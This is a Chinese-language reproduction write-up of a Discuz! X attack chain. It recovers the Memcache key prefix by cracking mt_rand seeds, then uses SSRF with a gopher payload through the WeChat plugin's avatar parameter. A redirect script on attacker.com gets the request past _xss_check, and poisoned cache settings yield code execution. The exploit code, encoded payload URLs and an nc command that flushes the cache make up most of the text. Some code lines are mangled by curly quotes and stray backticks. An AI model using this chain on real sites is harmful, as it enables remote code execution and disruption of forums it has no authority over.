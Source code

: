 # Discuz authkey+Memcache+ssrf getshell

> 原文：[https://www.zhihuifly.com/t/topic/2870](https://www.zhihuifly.com/t/topic/2870)

# Discuz! X authkey+Memcache+ssrf getshell

## 一、漏洞简介

需要得到authkey

## 二、漏洞影响

## 三、复现过程

Dz 整合 Memcache 配置成功后，默认情况下网站首页右下角会出现`MemCache On`的标志：

![image](img/93b92ad9102837854f7b8dc19754955d.png)

Dz 在安装的时候，对于缓存中的键名加了随机字符串作为前缀。所以如果 SSRF 要攻击 Memcache ，第一个问题是，如何找到正确的键名？

`install/index.php` 345-357行：

```
 $uid = DZUCFULL ? 1 : $adminuser['uid'];
        $authkey = md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.$username.$password.$pconnect.substr($timestamp, 0, 8)).random(18);
        $_config['db'][1]['dbhost'] = $dbhost;
        $_config['db'][1]['dbname'] = $dbname;
        $_config['db'][1]['dbpw'] = $dbpw;
        $_config['db'][1]['dbuser'] = $dbuser;
        $_config['db'][1]['tablepre'] = $tablepre;
        $_config['admincp']['founder'] = (string)$uid;
        $_config['security']['authkey'] = $authkey;
        $_config['cookie']['cookiepre'] = random(4).'_';
        $_config['memory']['prefix'] = random(6).'_';

```
 save_config_file(ROOT_PATH.CONFIG, $_config, $default_config); 
``` 
```

这是 Dz 在安装的时候的一段代码，这段代码设置了 authkey、Cookie 前缀以及缓存键名前缀，其中用到了`random`函数生成随机字符串。所以跟进这个`random`：

```
function random($length) {
    $hash = '';
    $chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
    $max = strlen($chars) - 1;
    PHP_VERSION < '4.2.0' && mt_srand((double)microtime() * 1000000);
    for($i = 0; $i < $length; $i++) {
        $hash .= $chars[mt_rand(0, $max)];
    }
    return $hash;
} 
```

可以发现，如果 PHP 版本大于 4.2.0，那么 `mt_rand` 随机数的种子是不变的。也就是说，生成 authkey、Cookie 前缀以及缓存键名前缀时调用的 `mt_rand` 用的都是同一个种子，而 Cookie 前缀是已知的，通过观察 HTTP 请求就可以知道。因此，随机数播种的种子可以被缩到一个极小的范围内进行猜解。这里可以用 [php_mt_seed](https://link.zhihu.com/?target=http%3A//www.openwall.com/php_mt_seed/README) 进行种子爆破。

通过 `mt_rand` 种子的猜解，缓存键名前缀的可能性从 62^6 缩小到不到 1000 个，这就完全属于可以爆破的范畴了。对猜解出来的所有可能的缓存键名前缀分别构造 SSRF 请求发送到服务器，最后即能更改某一键名对应的键值。

Memcache 缓存键名的问题解决了，接下来的问题是，缓存数据被加载到哪了？如何通过修改缓存数据来 getshell？

这一部分的思路就可以直接参照 chengable 写的那篇文章了，`output_replace` 函数细节有略微变化，但大体思路是一致的，所以我也不再赘述了。

最后准备用 gopher 协议构造 SSRF 的 payload。写这样一段代码（先假设缓存键名前缀是 `IwRW7l`）:

```
<?php

$_G[‘setting’][‘output’][‘preg’][‘search’][‘plugins’] = ‘/.*/’;

$_G[‘setting’][‘output’][‘preg’][‘replace’][‘plugins’] = ‘phpinfo()’;

$_G[‘setting’][‘rewritestatus’] = 1; `$memcache = new Memcache;

$memcache->connect(‘localhost’, 11211) or die (“Could not connect”);

$memcache->set(‘IwRW7l_setting’, $_G[‘setting’]);` 
```

运行这段 PHP 代码，同时抓包，然后将数据包改成 gopher 的形式，即：

```
gopher://localhost:11211/_set%20IwRW7l_setting%201%200%20161%0d%0aa%3A2%3A%7Bs%3A6%3A%22output%22%3Ba%3A1%3A%7Bs%3A4%3A%22preg%22%3Ba%3A2%3A%7Bs%3A6%3A%22search%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A4%3A%22%2F.*%2F%22%3B%7Ds%3A7%3A%22replace%22%3Ba%3A1%3A%7Bs%3A7%3A%22plugins%22%3Bs%3A9%3A%22phpinfo()%22%3B%7D%7D%7Ds%3A13%3A%22rewritestatus%22%3Bi%3A1%3B%7D 
```

但是直接用它去 SSRF 是不可以的，会被`_xss_check`检测到特殊字符而被拒绝请求：

![image](img/13737dd66822810385f459021365385b.png)

所以利用这里请求跟随跳转的特点，在自己的远程服务器上放类似于这样的一个脚本：

```
<?php `$url = base64_decode($_REQUEST[‘url’]);

header( "Location: " . $url );` 
```

这样就可以将 SSRF URL 进行 base64 编码从而规避`_xss_check`的检测。

```
http://target/plugin.php?id=wechat:wechat&ac=wxregister&username=vov&avatar=http%3A%2F%2Fattacker.com%2F302.php%3Furl%3DZ29waGVyOi8vbG9jYWxob3N0OjExMjExL19zZXQlMjBJd1JXN2xfc2V0dGluZyUyMDElMjAwJTIwMTYxJTBkJTBhYSUzQTIlM0ElN0JzJTNBNiUzQSUyMm91dHB1dCUyMiUzQmElM0ExJTNBJTdCcyUzQTQlM0ElMjJwcmVnJTIyJTNCYSUzQTIlM0ElN0JzJTNBNiUzQSUyMnNlYXJjaCUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTQlM0ElMjIlMkYuKiUyRiUyMiUzQiU3RHMlM0E3JTNBJTIycmVwbGFjZSUyMiUzQmElM0ExJTNBJTdCcyUzQTclM0ElMjJwbHVnaW5zJTIyJTNCcyUzQTklM0ElMjJwaHBpbmZvKCklMjIlM0IlN0QlN0QlN0RzJTNBMTMlM0ElMjJyZXdyaXRlc3RhdHVzJTIyJTNCaSUzQTElM0IlN0Q%253D&wxopenid=xxxyyy 
```

再访问`/forum.php?mod=ajax&action=getthreadtypes&inajax=yes`，即可看到`phpinfo()`代码已被执行：

![image](img/09cb65c9789ccc82c3e51a854b7eb68c.png)

由于缓存被暴力篡改，会导致网站无法正常运行。恢复正常办法是刷新缓存。用上面的思路直接一次 getshell 后执行以下命令，网站就可以恢复正常：

```
echo -e 'flush_all' | nc localhost 11211 
```

## 参考链接

> https://zhuanlan.zhihu.com/p/51907363